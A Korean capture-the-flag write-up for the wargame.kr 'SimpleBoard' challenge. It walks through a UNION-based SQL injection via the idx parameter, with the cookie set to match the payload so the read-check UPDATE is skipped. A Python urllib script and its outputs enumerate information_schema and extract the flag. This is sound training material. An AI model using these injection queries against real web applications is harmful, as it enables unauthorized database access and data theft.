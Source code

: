 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-00-31-21.png)

# **Write-Up**

그냥 게시판같은 페이지이다.

![](images/2022-01-03-00-31-41.png)

소스 중 Board class의 read함수를 보면 idx변수에 대해 해당하는 게시글을 읽는다.

![](images/2022-01-03-00-31-45.png)

idx변수는 GET method를 통해 전달됨을 알 수 있다.

![](images/2022-01-03-00-31-49.png)

read함수는 sql query전 read_chk라는 함수를 호출하는 데, 쿠키에서 /idx를 찾는다.

![](images/2022-01-03-00-31-53.png)

쿠키에서 /idx가 없다면 update문으로 향한다.

![](images/2022-01-03-00-31-57.png)

즉, read함수에서 select문에 대해서 injection을 수행하기위해 union 쿼리를 할 때, update문으로 들어가면 query error가 나온다.

![](images/2022-01-03-00-32-02.png)

쿠키를 조작하기 위해 python을 사용한다. 먼저 SQLi가 통하는 지 본다.

```python
import urllib
import urllib.request

# stage 1 query
query   = '0 union select 1,2,3,4--'
url     = ('http://wargame.kr:8080/SimpleBoard/read.php?idx='+query).replace(" ", "%20")
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/json; charset=utf-8', 'Cookie': 'view=%2F'+query}
request = urllib.request.Request(url, headers = headers)

try:
    response= urllib.request.urlopen(request)
    print(response.info())
    print(response.read().decode()) # html code
except urllib.error.HTTPError as e:
    print(e.code)                   # 404
    print(e.read())                 # 404 html code
except urllib.error.URLError as e:
    print(e.reason)                 # url에 대한 ip를 찾을 수 없음

[Output]
... 생략 ...
<thead>
        <tr><td>NUM</td><td>TITLE</td><td>HIT</td></tr>
        <tr><td>1</td><td>2</td><td>3</td></tr>
</thead>
<tbody>
        <td colspan=3>4</td>
</tbody>
... 생략 ...
```

SQLi가 통하니 DB명을 알아 낸다.

```python
query   = '0 union select 1,2,3,schema_name from Information_schema.schemata--'

[Output]
<td colspan=3>SimpleBoard</td>
```

Table 명을 알아낸다.

```python
query   = '0 union select 1,2,3,table_name from information_schema.tables--'

[Output]
<td colspan=3>README</td>
```

Column 명을 알아낸다.

```python
query   = '0 union select 1,2,3,column_name from information_schema.columns--'

[Output]
<td colspan=3>flag</td>
```

flag를 알아낸다.

```python
query   = '0 union select 1,2,3,flag from README--'

[Output]
<td colspan=3>272c3871611e03c2b35496027c9142bf1dfd380e</td>
```

# **FLAG**

**272c3871611e03c2b35496027c9142bf1dfd380e**
